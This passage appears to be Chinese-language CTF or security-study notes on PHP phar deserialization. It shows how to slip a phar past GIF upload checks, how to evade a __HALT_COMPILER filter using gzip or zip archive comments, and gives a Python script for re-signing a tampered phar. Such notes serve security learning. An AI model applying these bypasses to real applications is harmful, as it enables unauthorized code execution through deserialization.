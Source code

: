 GIF格式验证可以通过在文件头部添加GIF89a绕过。
```
$phar->setStub(“GIF89a”."<?php __HALT_COMPILER(); ?>"); //设置stub
//生成一个phar.phar，修改后缀名为phar.gif
```

过滤了`__HALT_COMPILER();`
参考 <https://guokeya.github.io/post/uxwHLckwx> （原理）

姿势1:

    **将phar文件进行gzip压缩** ，使用压缩后phar文件同样也能反序列化 (常用)

linux下使用命令`gzip phar.phar` 生成。

姿势2：

    将phar的内容写进压缩包注释中，也同样能够反序列化成功，压缩为zip也会绕过

```
$phar_file = serialize($exp);
echo $phar_file;
$zip = new ZipArchive();
$res = $zip->open('1.zip',ZipArchive::CREATE);
$zip->addFromString('crispr.txt', 'file content goes here');
$zip->setArchiveComment($phar_file);
$zip->close();
```

**phar 文件签名修改**

对于某些情况，我们需要修改phar文件中的内容而达到某些需求(比如要绕过`__wakeup`要修改属性数量)，
而修改后的phar文件由于文件发生改变，所以须要修改签名才能正常使用，官方文档中是这么说：

Phar Signature format（<https://www.php.net/manual/zh/phar.fileformat.signature.php#phar.fileformat.signature>）

Phars containing a signature always have the signature appended to the end of the Phar archive after the loader, 
manifest, and file contents. The signature formats supported at this time are MD5, SHA1, SHA256, SHA512, and OPENSSL.

![]({{site.baseurl}}/images/20230413/20230413185263.png)

用winhex或010-editor查看phar文件签名类型（以上述代码生成的phar文件为例）

![]({{site.baseurl}}/images/20230413/20230413185266.png)

以默认的sha1签名为例：
```
from hashlib import sha1
with open('phar.phar', 'rb') as file:
    f = file.read()     # 修改内容后的phar文件,以二进制文件形式打开
 
s = f[:-28] # 获取要签名的数据（对于sha1签名的phar文件，文件末尾28字节为签名的格式）
h = f[-8:] # 获取签名类型以及GBMB标识，各4个字节
newf = s + sha1(s).digest() + h # 数据 + 签名 + (类型 + GBMB)
 
with open('newPhar.phar', 'wb') as file:
    file.write(newf) # 写入新文件
```
